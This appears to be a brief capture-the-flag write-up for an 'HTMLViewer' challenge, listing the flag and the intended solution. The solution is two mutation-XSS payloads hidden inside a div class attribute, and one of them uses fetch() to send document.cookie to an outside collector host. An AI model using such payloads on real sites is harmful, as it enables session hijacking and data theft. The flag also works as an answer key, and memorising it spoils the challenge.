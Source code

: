 # Flags

HTMLViewer flag: IRS{mut4t10n_xss_1s_ez}

# Solution

Intended sol:

<div class="|<img src=a onerror=alert(1)>|">

<div class="|<img src=a onerror=fetch(`https://collector.pythonanywhere.com/${document.cookie}`)>|">
